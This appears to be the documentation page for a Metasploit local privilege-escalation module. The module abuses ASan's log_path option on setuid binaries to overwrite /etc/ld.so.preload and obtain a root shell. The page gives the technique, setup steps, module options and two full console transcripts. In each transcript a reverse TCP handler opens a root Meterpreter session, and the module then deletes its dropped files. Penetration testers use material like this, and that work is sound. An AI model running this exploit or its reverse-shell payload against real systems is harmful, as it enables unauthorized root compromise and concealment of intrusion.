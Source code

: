 ## Description

  This module attempts to gain root privileges on Linux systems using
  setuid executables compiled with AddressSanitizer (ASan).

  ASan configuration related environment variables are permitted when
  executing setuid executables built with libasan. The `log_path` option
  can be set using the `ASAN_OPTIONS` environment variable, allowing
  clobbering of arbitrary files, with the privileges of the setuid user.

  This module uploads a shared object and sprays symlinks to overwrite
  `/etc/ld.so.preload` in order to create a setuid root shell.


## Vulnerable Application

  [AddressSanitizer](https://clang.llvm.org/docs/AddressSanitizer.html) (ASan)
  is a fast memory error detector. It consists of a compiler instrumentation
  module and a run-time library.

  An example executable can be compiled with ASan as follows:
 
  ```
  gcc -s -lasan -fsanitize=address -o asan.elf helloworld.c
  sudo mv asan.elf /usr/bin/asan.elf
  sudo chown root:root /usr/bin/asan.elf
  sudo chmod u+s /usr/bin/asan.elf
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use use exploit/linux/local/asan_suid_executable_priv_esc`
  4. `set SESSION [SESSION]`
  5. `set SUID_EXECUTABLE /path/to/suid/compiled/with/asan`
  6. `check`
  7. `run`
  8. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **SUID_EXECUTABLE**

  Path to a SUID executable compiled with ASan. (default: ``)

  **SPRAY_SIZE**

  Number of PID symlinks to create. (default: `50`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ### Command Shell Session (Linux Mint 19)

  ```
  msf > use exploit/linux/local/asan_suid_executable_priv_esc 
  msf exploit(linux/local/asan_suid_executable_priv_esc) > set suid_executable /usr/bin/a.out
  suid_executable => /usr/bin/a.out
  msf exploit(linux/local/asan_suid_executable_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/asan_suid_executable_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/asan_suid_executable_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] /usr/bin/a.out is setuid
  [+] /usr/bin/a.out was compiled with ASan
  [+] gcc is installed
  [*] Writing '/tmp/.pCriI' (291 bytes) ...
  [*] Max line length is 65537
  [*] Writing 291 bytes in 1 chunks of 937 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.JtSfQ1.c' (142 bytes) ...
  [*] Max line length is 65537
  [*] Writing 142 bytes in 1 chunks of 513 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.TCLmzU.so.c' (323 bytes) ...
  [*] Max line length is 65537
  [*] Writing 323 bytes in 1 chunks of 1167 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.V7OEFt.c' (253 bytes) ...
  [*] Max line length is 65537
  [*] Writing 253 bytes in 1 chunks of 906 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.LpfTKJwR' (256 bytes) ...
  [*] Max line length is 65537
  [*] Writing 256 bytes in 1 chunks of 942 bytes (octal-encoded), using printf
  [*] Launching exploit...
  [+] Success! /tmp/.JtSfQ1 is set-uid root!
  -rwsr-xr-x 1 root root 8384 Jan 12 19:30 /tmp/.JtSfQ1
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (914728 bytes) to 172.16.191.211
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.211:56074) at 2019-01-12 03:30:47 -0500
  [+] Deleted /tmp/.JtSfQ1.c
  [+] Deleted /tmp/.TCLmzU.so.c
  [+] Deleted /tmp/.TCLmzU.so
  [+] Deleted /tmp/.V7OEFt.c
  [+] Deleted /tmp/.V7OEFt
  [+] Deleted /tmp/.LpfTKJwR

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.211
  OS           : LinuxMint 19 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

  ### Meterpreter Session (Linux Mint 19)

  ```
  msf > use exploit/linux/local/asan_suid_executable_priv_esc 
  msf exploit(linux/local/asan_suid_executable_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/asan_suid_executable_priv_esc) > set suid_executable /usr/bin/a.out
  suid_executable => /usr/bin/a.out
  msf exploit(linux/local/asan_suid_executable_priv_esc) > set verbose true
  verbose => true
  msf exploit(linux/local/asan_suid_executable_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] /usr/bin/a.out is setuid
  [+] /usr/bin/a.out was compiled with ASan
  [+] gcc is installed
  [*] Writing '/tmp/.XBKiFa' (291 bytes) ...
  [*] Writing '/tmp/.ooMwKnEXt.c' (142 bytes) ...
  [*] Writing '/tmp/.cWZL3A.so.c' (329 bytes) ...
  [*] Writing '/tmp/.78iKLJOvX.c' (254 bytes) ...
  [*] Writing '/tmp/.WkXgm2agJ8' (261 bytes) ...
  [*] Launching exploit...
  [+] Success! /tmp/.ooMwKnEXt is set-uid root!
  -rwsr-xr-x 1 root root 8384 Jan 12 19:42 /tmp/.ooMwKnEXt
  [*] Executing payload...
  [*] Transmitting intermediate stager...(106 bytes)
  [*] Sending stage (914728 bytes) to 172.16.191.211
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.211:56080) at 2019-01-12 03:42:43 -0500
  [+] Deleted /tmp/.XBKiFa
  [+] Deleted /tmp/.ooMwKnEXt.c
  [+] Deleted /tmp/.cWZL3A.so.c
  [+] Deleted /tmp/.cWZL3A.so
  [+] Deleted /tmp/.78iKLJOvX.c
  [+] Deleted /tmp/.78iKLJOvX
  [+] Deleted /tmp/.WkXgm2agJ8

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.211
  OS           : LinuxMint 19 (Linux 4.15.0-20-generic)
  Architecture : x64
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  meterpreter > 
  ```

